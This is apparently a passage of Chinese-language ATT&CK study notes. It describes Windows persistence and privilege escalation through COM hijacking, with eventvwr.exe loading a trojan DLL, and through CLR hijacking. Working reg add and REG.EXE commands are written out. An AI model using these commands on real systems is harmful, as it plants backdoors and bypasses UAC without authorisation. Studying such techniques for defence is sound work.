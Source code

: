 reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "LoadWithoutCOM" /t REG_SZ /d "" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "ThreadingModel" /t REG_SZ /d "Apartment" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder
/v "HideOnDesktop" /t REG_SZ /d "" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder
/v "Attributes" /t REG_DWORD /d f090013d /f

eventvwr.exe将会寻找{0A29FF9E-7F9C-4437-8B11-F424491E3931}这个组件，而这个组件又需要加载InProcServer32指定的DLL，这个DLL的路径就是MSF上传的木马DLL。当DLL一旦加载到eventvwr.exe这个进程中，Windows会复制一个管理员的Access
Token给这个DLL创建的进程。

eventvwr.exe如果是被管理员组的用户打开，将会自动提升权限，Windows中会有很多这类的应用程序

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/e62035826eb65d371241f7ed04f19315.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/189394712dd67feb34f4dec30a330b9a.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/83a540f644b2eee8ebffd586d8a3b25f.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/3817476265ea5c38493963264b332171.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/05dda8881f103207e7e5b1f4ad8f32b6.png)

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维-CLR劫持**

CLR:(能够劫持所有.Net程序，系统默认会调用.net程序,导致后门自动触发)：

全称Common Language
Runtime（公共语言运行库），是一个可由多种编程语言使用的运行环境。

CLR是.NET Framework的主要执行引擎，作用之一是监视程序的运行：

在CLR监视之下运行的程序属于“托管的”（managed）代码

不在CLR之下、直接在裸机上运行的应用或者组件属于“非托管的”（unmanaged）的代码

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/db99f0707623970086a33973f43fa2a3.png)

SET
KEY=HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{11111111-1111-1111-1111-111111111111}\\InProcServer32

REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\\msg.dll" /F

REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/ATT%26CK_Privilege_Persistence/media/9a4c1df5a3c05d90e524f35213b3389b.png)
